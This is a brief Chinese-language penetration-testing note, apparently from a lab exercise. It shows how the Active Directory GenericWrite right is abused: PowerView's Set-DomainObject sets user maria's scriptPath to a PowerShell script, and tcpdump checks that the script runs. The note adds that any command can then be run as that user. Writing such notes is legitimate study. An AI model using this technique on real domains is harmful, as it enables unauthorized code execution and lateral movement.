 # GenericWrite

能够以下一用户权限执行命令\
类似如此，自行修改，下一用户是maria

```clike
1. 导入模块
Import-Module .\PowerView.ps1
2. 本地监听验证
sudo tcpdump -ni tun0 icmp
3. 写入
echo "ping 10.10.14.12" > ping.ps1
4. 执行
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\ping.ps1"}
接下来如果要执行命令只需要写入同一ps1即可
```

‍
